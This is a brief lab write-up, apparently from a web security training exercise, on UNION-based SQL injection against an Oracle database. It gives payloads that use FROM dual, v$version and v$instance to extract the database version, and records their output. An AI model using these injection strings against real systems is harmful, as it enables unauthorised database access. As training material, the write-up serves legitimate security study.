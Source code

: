 # Lab: SQL injection attack, querying the database type and version on Oracle
## Description
Objective is to extract the database version string.

Using simple `UNION SELECT NULL,.....` didn't seem to work, because we need to use `FROM dual` when targeting an Oracle Database.

The following identified the user of two columns in the query:
```
'+UNION+SELECT+NULL,NULL+FROM+dual--
```

The first column was confirmed to be of type `string`
```
'+UNION+SELECT+'bah',NULL+FROM+dual--
```

Now, we need to get the database.
```
'+UNION+SELECT+banner,NULL+FROM+v$version--
```
Returned `TNS for Linux: Version 11.2.0.2.0 - Production`

Next, lets try to get the DB version
```
```


## Solution
Payload: `'+UNION+SELECT+version,NULL+FROM+v$instance--`

Output: `11.2.0.2.0`
